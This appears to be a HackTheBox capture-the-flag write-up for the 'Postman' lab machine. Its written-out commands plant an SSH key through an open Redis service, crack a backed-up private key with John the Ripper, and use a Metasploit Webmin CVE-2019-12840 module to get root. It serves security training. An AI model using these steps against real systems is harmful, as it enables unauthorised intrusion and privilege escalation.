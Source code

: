 ```yaml
---
title: Write-up Postman Machine
author: pcw3r
date: 2020-02-02 11:33:00 +0800
categories: [HackTheBox, Boot2Root]
tags: [LINUX, EASY, ENUMERATION, DATABASE EXPLOITATION, WEB EXPLOITATION, PASSWORD CRACKING, CVE]
math: true
---
```


**<center>Ref°: HTB-01-Boot2Root</center>**

![Desktop View]({{ "/assets/img/postman/HTB-Badge-Postman.png" | relative_url }})

--- Postman is a Linux machine that highlights the exploitation of the RCE on the Redis service to gain access and allow to enumerate to escalate our privileges through a found and cracked backup ssh key. That to get Flag user.

A CVE is present in Webmin service to get root privilege and our user have sufficiently right to exploit it through Metasploit module. That to get Flag root.

![Desktop View]({{ "/assets/img/postman/HTB-Information-Postman.png" | relative_url }})

## **<span style='color:#c0392b'>[1] Discovery - Figure out environment</span>**
### Check all services
***

We find interesting services: `ssh`, `web`, `redis` and `webmin`.

```terminal
$ nmap -A -T5 10.10.10.160 -p-
```

### Redis
***

Access to the service Redis is not protected by password.

### Web
***

Webmin run on the web service in version `1.910`.

### Vulnerabilities
***

Redis is not protected by password and we can access with telnet command. We can write and push our SSH Public Key file in authorized_keys. After we are the possibility to logging on to the victim machine through SSH.

The service Webmin present two CVE : 2006-3392 and 2019-12840. The second is more interesting because we can execute arbitrary commands with root privileges via the data parameter to update.cgi. But we need to have a user authorized to the "Package Updates" module.

Reference - exploit CVE : <https://www.cvedetails.com/cve/CVE-2019-12840/>

Metasploit module exists.


## **<span style='color:#c0392b'>[2] Foothold - Get into the target </span>**
### SSH Authorized Keys from RCE Execution
***
Reference - exploit RCE : <https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html>

```terminal
$ sh-keygen -t rsa -b 2048
$ (echo -e "\n\n"; cat postman.pub; echo -e "\n\n") > foo.txt
$ cat /root/.ssh/foo.txt | redis-cli -h 10.10.10.160 -x set s-key

$ telnet 10.10.10.160 6379
> config get dir
> config set dir /var/lib/redis/.ssh
> config set dbfilename authorized_keys
> save
> quit

$ ssh redis@10.10.10.160 -i postman
```

![Desktop View]({{ "/assets/img/postman/HTB-Images-redisrce.png" | relative_url }})

The exploitation is successful and we have gained a foothold.

## **<span style='color:#c0392b'>[3] Lateral Movement - Move through environment</span>**
### Cracking Password
***
With `locate command` we found a backup of ssh key and its owner is Matt.

```terminal
$ locate id_rsa
$ ls -la /opt/
```

![Desktop View]({{ "/assets/img/postman/HTB-Images-sshkey.png" | relative_url }})

We retrieve the private key to exploit it with JohnTheRipper on our attacking machine.

Reference - johntheripper tool : <https://bytesoverbombs.io/cracking-everything-with-john-the-ripper-d434f0f6dc1c>

```terminal
$ ./ssh2john.py ~/.ssh/Matt > Matt.hash
$ /usr/sbin/john --wordlist=/root/Documents/wordlist/rockyou.txt Matt.hash
```

We crack the password of the user Matt : `computer2008`.

We cannot access in ssh with this user due to a restriction in the ssh configuration file.
But we have the possibility to escalate with the `su command` from our victim machine.

## **<span style='color:#c0392b'>[4] Privilege Escalation - Gain higher-level permissions</span>**
### CVE 2019-12840 Exploitation
***
Matt user have access on Webmin and he have sufficiently right on `Package Updates` module to execute CVE 2019-12840 and obtain root privilege.

![Desktop View]({{ "/assets/img/postman/HTB-Images-SoftwarePackage.png" | relative_url }})

```terminal
$ msfconsole
msf5 > search webmin
msf5 > use exploit/linux/http/webmin_packageup_rce
msf5 > show options
msf5 > set username Matt
msf5 > set password computer2008
msf5 > set lhost 10.10.15.122
msf5 > set rhost 10.10.10.160
msf5 > set ssl true
msf5 > check
msf5 > exploit

$ whoami
root

$ cat /root/root.txt
```

We have compromise Postman machine.


***

## **<center>Trophy</center>**

> **A hacker does for love what others would not do for money.**
>
> Laura Creighton
